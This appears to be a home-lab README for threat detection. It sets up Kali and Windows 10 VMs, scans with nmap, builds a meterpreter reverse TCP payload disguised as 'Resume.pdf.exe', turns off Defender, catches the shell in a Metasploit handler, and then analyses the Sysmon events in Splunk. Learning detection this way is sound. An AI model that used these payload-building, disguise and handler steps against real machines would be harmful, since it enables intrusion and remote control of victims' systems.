# Threat detection and monitoring home lab

<p align="center">
  
</p>

This project focuses on building a home cybersecurity lab to generate and analyze security events, providing a hands-on learning experience in cybersecurity concepts and practical skills. The lab will simulate a real-world attack scenario, allowing us to understand how attackers operate and how to detect and analyze their activities.

The lab setup will involve using virtualization software (VirtualBox) to create two virtual machines (VMs): one running **Kali Linux** as the attacker machine and another running **Windows** as the target machine.

We will utilize various security tools to simulate an attack and generate security events:

- **Nmap**: A network scanning tool for discovering hosts and services on a network.
- **MSFvenom**: A tool for generating malicious payloads for exploitation

To analyze the generated events, we will use:
- **Splunk**: A powerful security information and event management (SIEM) software for collecting, analyzing, and visualizing security data.
- **Sysmon**: A Windows system monitoring tool that provides detailed insights into system activity.

This project will provide a practical understanding of cybersecurity concepts, security tools, and analysis techniques. It will also enhance our ability to detect and respond to security threats in a real-world environment.

## 1. Setting Up the Environment

We'll utilize **VirtualBox** as our virtualization software to create two virtual machines (VMs). 
- **Kali Linux VM**: This VM will serve as the attacker machine, providing a platform for using various security tools to simulate attacks.
- **Windows VM**: This VM will act as the target machine, allowing us to observe the impact of attacks and analyze the generated security events.

The instruction for installing VirtualBox can be found [here](). 

### 1.1 Creating the Kali Linux VM
Go to [Kali download page ](http://kali.org/get-kali/#kali-platforms), choose **Virtual Machines** to download the Kali VM image.

<p align="center">
  
</p>

At the **Pre-built Virtual Machines**, choose the VirtualBox or VMWare image depend on your virtualization platform. in my case, I choose VirtualBox 

<p align="center">
  
</p>

A note here is the default credential for this machine is **kali/kali**

We use [7zip](https://www.7-zip.org/download.html) for extracting the downloaded 7z file. Then, launch VirtualBox and click on **Add** 

<p align="center">
  
</p>

Browse to the folder we have just extracted and double click on the file with **.vbox** extension.

<p align="center">
  
</p>

We now open VirtualBox and are presented the settings of Kali VM. Click **start** button to start the machine. The Login page of Kali is shown. We can use the default credential to login to Kali. 

<p align="center">
  
</p>

### 1.2 Creating the Windows VM
#### Create Windows image

Go to the [Download Windows 10 site](https://www.microsoft.com/en-ca/software-download/windows10), under **Create Windows 10 Installation Media**, select **Download Now** to download the Windows 10 installation media tool 

<p align="center">
  
</p>

Then, head to the folder that the install file was downloaded to, then run `MediaCreationTool.exe` to start the installation. If the User **Account Control** window appears, select **Yes**. Then, **Microsoft software license terms and applicable** notices, select **Accept**

<p align="center">
  
</p>

Select **Create installation media (USB flash drive, DVD, or ISO file) for another PC,** then select **Next**

<p align="center">
  
</p>

Select the Language, Edition, and Architecture (64-bit or 32-bit) that you want to create for the Windows 10 installation media, then select **Next**

<p align="center">
  
</p>

In the **Choose which media to use** step, we select **ISO file** and click **Next**

<p align="center">
  
</p>

#### Create Windows 10 VM

Launch VirtualBox and select the **New** button. The **Create Virtual Machine** wizard is shown, to guide us through the required steps for setting up a new virtual machine. 

- **Name**: Win10-Client
- **Folder**: *where the virtual machine will be saved. I keep the default*.
- **ISO Image**: *the location of the Windows 10 ISO file that we downloaded*

And check for the option of **Skip Unattended Installation**

<p align="center">
  
</p>

For the **Hardware** section, we configure our VM specifications. These configuration are relying our computer's specifiactions. Here, I set the **Base Memory** to be **4 GB (4096 Mb)** and allocate **1 processor**.  

<p align="center">
  
</p>

We also set 50 GB for the hard disk and click **Finish**

<p align="center">
  
</p>

After creating the Windows VM, we start it and follow the on-screen instructions to install Windows. For this lab, we need to install Sysmon and Splunk on this Windows VM. Detailed instructions for installing Sysmon and Splunk can be found in their respective documentation.

### 1.3 Network Configuration

In this home lab, we need our VMs, Kali and Windows 10, to be able to directly communicate with each other. To achieve this, we'll configure them on the same internal network.  For each VM, access its settings and select **Network** from the left-hand menu. Then, choose **Internal Network** as the **Attached to** option and provide a name for our internal network, in my case is **martin**.  Click **OK** to save the settings.    

<p align="center">
  
</p>

On the Kali VM, right-click on the network icon in the top-right corner, select **Edit Connections** (1) click on **Wired connection 1** (2) and then select the gear icon (3).  

<p align="center">
  
</p>

In the **Editing Wired connection 1** wizard, click on **IPv4 Settings**. We choose the **Method** is **Manual** and add an address of `192.168.100.11` with Netmask is 24. We keep **Gateway**, **DNS servers** and **Search domains** blank. Click **Save** to apply the settings.    

<p align="center">
  
</p>

On the Windows 10 VM, right-click the network icon in the bottom-right corner and select **Open Network & Internet Settings**. Then, select **Change adapter options** right-click on **Ethernet** click **Properties** and select **Internet Protocol Version 4 (TCP/IPv4)** followed by **Properties**  Choose **Use the following IP address** enter the IP address as `192.168.100.10` and set the subnet mask to `255.255.255.0`.  Click **OK** to save the settings.    

## 2. Generating Telemetry

Now that our lab environment is set up, we can proceed with generating security events that simulate a real-world attack scenario. This will involve utilizing the tools available in our Kali Linux VM to target the Windows VM and trigger various security events.

### 2.1 Reconnaissance with Nmap
The first step in most attacks is reconnaissance, where the attacker gathers information about the target system. We'll use nmap, a powerful network scanning tool, to discover open ports and services running on our Windows target machine.

Open a terminal in your Kali Linux VM.
```sh
nmap -A 192.168.100.10 -Pn
```
This command performs a comprehensive scan, including OS detection, version detection, script scanning, and traceroute. The -A flag enables OS detection, version detection, script scanning, and traceroute.

<p align="center">
  
</p>

The output provide valuable information about the **Windows 10** machine, such as open ports, running services, operating system, and potential vulnerabilities. From the output here we can see some ports are opened including 3389 (), 135, 139, 445.

### 2.2 Generating a Malicious Payload with MSFvenom
Next, we'll use **MSFvenom** to create a malicious payload that we'll deploy on the target Windows 10 VM. For this home lab, we'll generate a reverse TCP shell payload, which will allow us to establish a remote connection to the Windows 10 machine.

In terminal in Kali Linux VM, run the following msfvenom command
```sh
msfvenom -l payloads
```
<p align="center">
  
</p>

There are many payloads we can use. In this lab we will use`windows/x64/meterpreter_reverse_tcp`

<p align="center">
  
</p>

We build our malware by using the command:

<p align="center">
  
</p>

This command generates a Windows executable file named `Resume.pdf.exe` containing the reverse TCP shell payload. The LHOST option specifies the IP address of the attacker machine (Kali VM), and the LPORT option specifies the port number for the connection. We can check to make sure the file is exist by `ls` command.

Then, we open upnthe Handler that will listen in the port that we have configured in our malware. To do that, we open up Metasploit by command

```sh
msfconsole
```
Then

```sh
use exploit/multi/handler
```

<p align="center">
  
</p>

First, we change the payload to which we used when we were configuring our malware and MSFvenom
```sh
set payload windows/x64/meterpreter/reverse_tcp
```
We can check by command `options`

<p align="center">
  
</p>

Then, we can set our host to the IP of the attacker machine. In our case, this is our Kali machine IP
```sh
set lhost 192.168.100.11
```
and we can use `options` to check our lhost again

<p align="center">
  
</p>

### 2.3 Deploying the Payload
Now, we'll transfer the generated payload `Resume.pdf.exe` to the Windows VM and execute it. This will simulate an attacker gaining access to the target machine. To do that, we set up a HPPT server on our Kali machine so Windows machine can download the payload.

We open a new tab and make sure we are in the same directory as our payload. Then, we run the command:
```sh
python3 -m http.server 9999 
```
On our Windows machine, we go to **Windows Security**, **Virus & Threat protection**, **Manage Setting**, then we turn off **Real-time protection**. 

<p align="center">
  
</p>

Then, open our we brower and type in our IP of Kali with port 9999. We see the payload listed here. We download the payload and just click **Keep** if the brower pop up the notification 

<p align="center">
  
</p>

Now we can execute the payload by double click on it. This will establish a reverse TCP connection back to our Kali VM. We can open Task Manager, go to the tab Details and see if the payload is here. 

<p align="center">
  
</p>

And if we back to our Kali machine and look at our Hanler, we should have an open shell. At our Hanler, run the command:
```sh
shell
```
then
```sh
net user
```
and
```sh
net localgroup
```

<p align="center">
  
</p>

## 3. Analyzing Telemetry with Splunk
Splunk is a powerful SIEM (Security Information and Event Management) platform that enables us to collect, analyze, and visualize security data from various sources. In this section, we'll explore how to use Splunk to analyze the telemetry generated from our simulated attack scenario.

On our Windows VM, access the Splunk web interface by opening a web browser and navigate to the Splunk web interface `localhost:8000`. After logging in, select Add Data.

<p align="center">
  
</p>

Then, select **Indexes**, click on **New Index** on top right corner

<p align="center">
  
</p>

Then, we type **endpoint** in the Index Name and click on **Save**

<p align="center">
  
</p>

Now we can go to Search and Reporting app. In the New Search box, we type `index=endpoint` 

<p align="center">
  
</p>

We can see Splunk is now receiving data from our Windows VM.

Next, we need to install the **Sysmon addon** to help us parse Sysmon data. To do that, click on Apps, Find More Apps and search for `sysmon`

<p align="center">
  
</p>

Then, we install **Splunk Add-on for Sysmon**. After finishing install, we can go back to Search and Reporting app and search for the IP of the Kali VM

```sh
index=endpoint 192.168.100.11
```

<p align="center">
  
</p>

If we look at in details of an event, we can see some interesting attributes. 

<p align="center">
  
</p>

Here, we can use the **ProcessGuid** to search and display the result as a table with the following fields: **_time**, **ParentImage**, **Image** and **CommandLine**

```sh
index=endpoint {04cab0d5-bb74-67c0-4f0d-000000000c00}
|table _time,ParentImage,Image,CommandLine
```
<p align="center">
  
</p>

## 4. Conclusion

This project successfully demonstrated the process of building a home cybersecurity lab for threat detection and monitoring.  By setting up a virtual environment with Kali Linux and Windows VMs, we were able to simulate a real-world attack scenario and analyze the resulting security events.  We gained valuable insights into attacker techniques, telemetry analysis, threat detection, and system monitoring.  The skills and knowledge acquired from this project are highly relevant to real-world cybersecurity practices.  Building and experimenting with this home lab strengthened our ability to detect, analyze, and respond to security threats effectively.  Potential next steps include expanding the lab environment, simulating more complex attacks, automating incident response, and developing threat hunting scenarios.  By continuously expanding our knowledge and skills in threat detection and monitoring, we can contribute to building a more secure digital world.
